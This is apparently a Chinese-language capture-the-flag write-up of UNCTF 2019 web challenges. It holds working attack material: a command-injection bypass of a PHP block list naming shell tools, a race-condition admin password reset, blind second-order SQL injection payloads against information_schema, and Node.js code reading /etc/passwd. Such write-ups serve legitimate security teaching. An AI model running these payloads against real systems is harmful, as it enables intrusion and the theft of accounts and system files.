categories:
- 比赛
tags:
- wp
- ctf
title: unctf2019
---
# unctf2019

## bypass

```php

<?php
    highlight_file(__FILE__);
    $a = $_GET['a'];
    $b = $_GET['b'];
 // try bypass it
    if (preg_match("/\'|\"|,|;|\`|\\|\*|\n|\t|\xA0|\r|\{|\}|\(|\)|<|\&[^\d]|@|\||tail|bin|less|more|string|nl|pwd|cat|sh|flag|find|ls|grep|echo|w/is", $a))
        $a = "";
        $a ='"' . $a . '"';
    if (preg_match("/\'|\"|;|,|\`|\*|\\|\n|\t|\r|\xA0|\{|\}|\(|\)|<|\&[^\d]|@|\||tail|bin|less|more|string|nl|pwd|cat|sh|flag|find|ls|grep|echo|w/is", $b))
        $b = "";
        $b = '"' . $b . '"';
     $cmd = "file $a $b";
      str_replace(" ","","$cmd"); 
     system($cmd);
?>
```



用`a=\&b=\`来逃脱引号

用?来匹配,但是隐藏文件是无法显示的要自己在前面加一个.

`file "\" -f "  \"`

最后在` http://101.71.29.5:10054/.F1jh_/h3R3_1S_your_F1A9.txt `里找到flag

`unctf{86dfe85d7c5842c5c04adae104193ee1}`



## NSB RESET PASSWORD

题目说是重置密码,刚开始我想的是越权

后面搞了好久都不行。后面试着弄了一下发现一个验证码可以多次用.

我就猜有可能是条件竞争

先注册一个账号用收到的验证码重置，然后再用admin账号请求重置密码

然后直接跳到修改密码的界面,修改一下就出来了



 flag{175f3098f80735ddfdfbd4588f6b1082} 



## 帮赵总征婚

盲猜sql注入

转义:`',",\,#`

还给了我们一个phpinfo?????

我也想帮赵总征婚啊，可是我没机会

remember_me 是否可以注入?





## inject twice

题目是sql-lab的源码

二次注入点

```php
if (isset($_POST['submit']))
{
	
	
	# Validating the user input........
	$username= $_SESSION["username"];
	$curr_pass= mysql_real_escape_string($_POST['current_password']);
	$pass= mysql_real_escape_string($_POST['password']);
	$re_pass= mysql_real_escape_string($_POST['re_password']);
	
	if($pass==$re_pass)
	{	
		$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";
		$res = mysql_query($sql) or die('You tried to be smart, Try harder!!!! :( ');
		$row = mysql_affected_rows();
		echo '<font size="3" color="#FFFF00">';
		echo '<center>';
		if($row==1)
		{
			echo "Password successfully updated";
	
		}
		else
		{
			header('Location: failed.php');
			//echo 'You tried to be smart, Try harder!!!! :( ';
		}
	}
	else
	{
		echo '<font size="5" color="#FFFF00"><center>';
		echo "Make sure New Password and Retype Password fields have same value";
		header('refresh:2, url=index.php');
	}
}
?>
```



但是得到admin账号后,并没有得到flag,估计要把数据库给溜一圈。

黑名单:`or, `

注册一个`hello\`的账号,就可以用,currentpass来注入,但是环境炸了,我sleep了一下就奇奇怪怪了

//////////////???????????????????

currentpass=`/**/or/**/1-- a`

数据库名` or (SELECT substr(hex(group_concat(schema_name)),1,1) FROM information_schema.schemata)=char(54)-- a`

information_schema,metinfo,mysql,performance_schema,security,sys

表:

`GROUP_CONCAT(table_name) FROM information_schema.tables WHERE TABLE_SCHEMA=database()`

security:emails,fl4g,referers,uagents,users

列名

fl4g:f1ag

最后的flag` UNCTF{585ae8df50433972bb6ebd76e3ebd9f4}`





## checkin 

又是一个vue应用

![image.png](http://ww1.sinaimg.cn/large/006pWR9agy1g8cz6r1f4pj30ep0d2wfe.jpg)

在代码中发现

/calc: 可以命令执行,但是却没有办法找到有效的利用方式

后端是node.js

version: v10.12.0 

cwd:/usr

/usr目录

 bin,games,include,lib,local,sbin,share,src 

res.end(require('fs').readFileSync('/etc/passwd').toString())

require('fs').readdirSync.('/etc/passwd').toString()

在根目录下找到flag

  flag{0e4d1980ef6f8a81428f83e8e1c6e22b} 

最后还是晚了一分钟

看来改天要看看nodejs的东东?

